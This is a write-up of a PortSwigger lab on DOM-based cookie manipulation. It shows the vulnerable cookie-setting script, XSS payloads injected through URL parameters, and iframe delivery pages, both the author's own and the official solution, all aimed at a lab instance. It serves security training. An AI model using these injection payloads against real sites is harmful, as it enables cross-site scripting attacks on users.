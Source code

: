 
# DOM-based cookie manipulation

This lab demonstrates DOM-based client-side cookie manipulation. To solve this lab, inject a cookie that will cause XSS on a different page and call the print() function. You will need to use the exploit server to direct the victim to the correct pages.

---------------------------------------------

References: 

- https://portswigger.net/web-security/dom-based/cookie-manipulation



![img](images/DOM-based%20cookie%20manipulation/1.png)

---------------------------------------------

We find this code in the blog posts:

```
<script>
    document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>
```



![img](images/DOM-based%20cookie%20manipulation/2.png)

When we return to the home page we see the new cookie is set:



![img](images/DOM-based%20cookie%20manipulation/3.png)

We can change the URL adding GET parameters and the cookie changes too:



![img](images/DOM-based%20cookie%20manipulation/4.png)

Also there is a button to check the last viewed product:



![img](images/DOM-based%20cookie%20manipulation/5.png)


If we add a payload like this we should be able to execute a XSS attack:

```
'><script>alert(1)</script><a href='
```

```
/product?productId=1&a=b'><script>alert(1)</script><a href='
```

When we return to the home page we see the payload was successful:



![img](images/DOM-based%20cookie%20manipulation/6.png)


So we will change it to print the page:

```
/product?productId=1&a=b'><script>print()</script><a href='
```

I used this ifram and had to send it twice:

```
<head>
    <style>
        #target_website {
            position:relative;
            // width:100%;
            //height:100%;
            width:500px;
            height:600px;
            opacity:0.1;
            z-index:2;
            }
    </style>
</head>
<body>
    <iframe id="target_website" src="https://0a47002b042aee6c8072fd12001d0057.web-security-academy.net/product?productId=1&a=b%27><script>print()</script><a href=%27">
    </iframe>
</body>
```

The official solution does this sending only one message:

```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">
```
